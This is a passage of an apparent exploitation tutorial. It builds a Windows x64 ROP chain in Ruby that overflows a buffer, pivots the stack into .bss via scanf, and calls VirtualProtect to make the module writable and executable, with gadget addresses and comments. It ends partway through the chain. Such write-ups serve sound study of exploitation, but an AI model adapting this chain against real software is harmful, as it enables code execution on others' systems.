 ## <span id='73fd64f500c535d97019722db89f60aa'>Implementing the exploit</span>

I split the exploit in multiple parts, to make it easier to follow.

Let's set some variables that will act as parameters in our payload.
```ruby
fake_stack = 0x407100; # in the .bss section
jmp_scanf = 0x402bf8; # trampoline jmp to scanf
virtualprotect_ptr = 0x408294; # address of the pointer to VirtualProtect that is in the import table
```

I am representing the payload as an array of qwords, converting the array to a payload string is simple (refer to the whole exploit code for more informations).
### <span id='a298d8e04dd735b71b9bbc699eb44eca'>Part1 - Initial Buffer overflow, stack pivoting</span>

Because some gadgets end with ``add rsp, 0x28;``, we will follow them with ``[ 0 ] * (0x28 / 8)`` (that is, 0x28/8=5 qwords), so that we get to the next gadget on the chain after executing them.

```ruby
# first thing to do : scanf("%s", fake_stack); rsp = fake_stack
part1 = [ 0x6161616161616161 ] * (72/8) # 72 bytes (72/8 qwords) to get to the return address
part1 += [ 0x004019cf, 0xdeadbeefdeadbeef, 0x00402a1d ] + [ 0 ] * (0x28/8) # set rax = r8;
part1 += [ 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set r8 = 0
part1 += [ 0x004019cf, fake_stack, 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set rax = fake_stack, set r8=fake_stack
part1 += [ 0x00402a1d ] + [ 0 ] * (0x28 / 8) # set rdx = fake_stack
part1 += [ 0x00402bc0, 0x404000, jmp_scanf, 0x004010a7, 0, 0, 0, 0, 0, 0x0040172c, fake_stack ] # set rcx = address of "%s"; scanf(rcx="%s",rdx=fake_stack); set rsp=fake_stack
# now, the stack will become fake_stack
```

### <span id='1a2af3c8a6959c84c39768133b904836'>Part2 - VirtualProtect the main module to ERW, scanf on ERW memory, and jump to it:</span>
One challenge we face here is that we have no gadget to control the ``r9`` register, and we need it because ``VirtualProtect`` takes ``4`` arguments (fourth argument is just a pointer that retrieves the old protections).
Using ``objdump``, and looking for instructions containing ``r9``, we find this sequence:

[![Set R9](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110440/when_exploit_mitigations_are_disabled_on_modern_systems/set_r9_b1dura.png)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110440/when_exploit_mitigations_are_disabled_on_modern_systems/set_r9_b1dura.png)

Let's pick the gadget at ``0x4027ff``, if we set ``rcx = 0;`` and ``rax`` such that ``dword[rax+0xc] == 0`` and ``dword [rax+8] == 0;``, then it will have the effect : ``r9 = rax+0x28;``, finding such a value for rax is simple enough, especially in a section like the ``.bss``.


```ruby
# next thing to do : VirtualProtect(0x401000, 0x11000, 7, any_writable_address)
part2 = [ 0x004019cf, 0x407400, 0x00402bc0, 0, 0x4027ff ] # set rax=0x407400; set rcx=0; set r9 = 0x407400 + 0x28
part2 += [ 0x004019cf, 0xdeadbeefdeadbeef, 0x00402a1d ] + [ 0 ] * (0x28/8); # set rax = r8;
part2 += [ 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set r8 = 0
part2 += [ 0x004019cf, 0x11000, 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set rax = 0x11000; set r8 = 0x11000
part2 += [ 0x00402a1d ] + [ 0 ] * (0x28 / 8) # set rdx = 0x11000
part2 += [ 0x004019cf, 0x11000^0x40, 0x004010a4] + [ 0 ] * (0x28 / 8) # set rax=0x11000^0x40; set r8 = r8^rax = 0x40
part2 += [ 0x00402bc0, 0x401000, 0x004019cf, virtualprotect_ptr, 0x00402353, 0x004010a7, 0, 0, 0, 0, 0 ] # set rcx=0x401000; set rax = virtualprotect_ptr; jmp [virtualprotect_ptr]
# now, 0x11000 bytes from 0x401000 should be ERW
# next thing to do : scanf("%s", 0x401000)
part2 += [ 0x004019cf, 0xdeadbeefdeadbeef, 0x00402a1d ] + [ 0 ] * (0x28/8); # set rax = r8;
```